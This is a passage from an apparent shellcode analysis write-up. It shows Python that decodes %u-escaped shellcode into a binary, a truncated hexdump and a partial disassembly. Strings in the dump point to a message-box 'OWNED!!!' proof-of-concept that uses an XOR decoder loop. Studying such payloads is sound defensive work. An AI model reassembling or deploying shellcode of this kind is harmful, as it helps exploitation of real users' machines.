 ```python
>>>
>>> with open("shellcode.binary", "wb") as fo:
...   fo.write(binascii.unhexlify(re.sub(r"%u(..)(..)", r"\2\1", sc)))
...
>>>
```

The extracted binary shellcode blob contains references to Windows APIs and some strings:

```
$ cat shellcode.binary | hd
00000000  f9 72 49 46 25 15 0d 7f  3c 3d 84 e0 2a d6 39 e1  |.rIF%...<=..*.9.|
00000010  4a a8 b9 76 24 98 78 73  71 7d 7f 75 76 20 d4 96  |J..v$.xsq}.uv ..|
00000020  91 ba 70 19 f9 b8 32 e2  7b 46 a8 9b 01 fe c6 c7  |..p...2.{F......|
00000030  c1 e3 24 7e 7c 43 80 e1  15 b1 b2 b3 66 4f b6 27  |..$~|C......fO.'|
00000040  3c 9f 4e 7a 2d 41 bf bb  05 77 28 f5 93 92 90 99  |<.Nz-A...w(.....|
00000050  98 a9 47 0a eb 14 49 3d  4b 48 2f 37 8d b9 78 34  |..G...I=KH/7..x4|
00000060  b4 0b d2 d5 31 e0 72 35  10 d6 40 67 be 2b fd 4a  |....1.r5..@g.+.J|
...<snip>...
000002c0  75 da 8b 53 3c 03 d3 ff  72 34 8b 52 78 03 d3 8b  |u..S<...r4.Rx...|
000002d0  72 20 03 f3 33 c9 41 ad  03 c3 81 38 47 65 74 50  |r ..3.A....8GetP|
000002e0  75 f4 81 78 04 72 6f 63  41 75 eb 81 78 08 64 64  |u..x.rocAu..x.dd|
000002f0  72 65 75 e2 49 8b 72 24  03 f3 66 8b 0c 4e 8b 72  |reu.I.r$..f..N.r|
00000300  1c 03 f3 8b 14 8e 03 d3  52 33 ff 57 68 61 72 79  |........R3.Whary|
00000310  41 68 4c 69 62 72 68 4c  6f 61 64 54 53 ff d2 68  |AhLibrhLoadTS..h|
00000320  33 32 01 01 66 89 7c 24  02 68 75 73 65 72 54 ff  |32..f.|$.huserT.|
00000330  d0 68 6f 78 41 01 8b df  88 5c 24 03 68 61 67 65  |.hoxA....\$.hage|
00000340  42 68 4d 65 73 73 54 50  ff 54 24 2c 57 68 44 21  |BhMessTP.T$,WhD!|
00000350  21 21 68 4f 57 4e 45 8b  dc e8 00 00 00 00 8b 14  |!!hOWNE.........|
00000360  24 81 72 0b 16 a3 fb 32  68 79 ce be 32 81 72 17  |$.r....2hy..2.r.|
00000370  ae 45 cf 48 68 c1 2b e1  2b 81 72 23 10 36 9f d2  |.E.Hh.+.+.r#.6..|
00000380  68 71 44 fa ff 81 72 2f  f7 a9 a9 0c 68 84 e9 cf  |hqD...r/....h...|
00000390  60 81 72 3b be 93 a9 43  68 d2 a3 98 37 81 72 47  |`.r;...Ch...7.rG|
000003a0  82 8a 62 3b 68 ef a4 11  4b 81 72 53 d6 47 c0 cc  |..b;h...K.rS.G..|
000003b0  68 be 69 a4 ff 81 72 5f  a3 ca 54 31 68 d4 ab 65  |h.i...r_..T1h..e|
000003c0  52 8b cc 57 53 51 57 8b  f1 89 f7 83 c7 1e 39 fe  |R..WSQW.......9.|
000003d0  7d 0b 81 36 42 45 45 46  83 c6 04 eb f1 ff d0 68  |}..6BEEF.......h|
000003e0  65 73 73 01 8b df 88 5c  24 03 68 50 72 6f 63 68  |ess....\$.hProch|
000003f0  45 78 69 74 54 ff 74 24  40 ff 54 24 40 57 ff d0  |ExitT.t$@.T$@W..|
00000400
```

I tried disassembling and analyzing it but got nowhere:

```objdump
$ cat shellcode.binary | udcli
0000000000000000 f9               stc
0000000000000001 7249             jb 0x4c
0000000000000003 46               inc esi
0000000000000004 25150d7f3c       and eax, 0x3c7f0d15
0000000000000009 3d84e02ad6       cmp eax, 0xd62ae084
000000000000000e 39e1             cmp ecx, esp
0000000000000010 4a               dec edx
...<snip>...
00000000000003c3 57               push edi
00000000000003c4 53               push ebx
00000000000003c5 51               push ecx
00000000000003c6 57               push edi
00000000000003c7 8bf1             mov esi, ecx
00000000000003c9 89f7             mov edi, esi
00000000000003cb 83c71e           add edi, 0x1e
00000000000003ce 39fe             cmp esi, edi
00000000000003d0 7d0b             jge 0x3dd
00000000000003d2 813642454546     xor dword [esi], 0x46454542
00000000000003d8 83c604           add esi, 0x4
```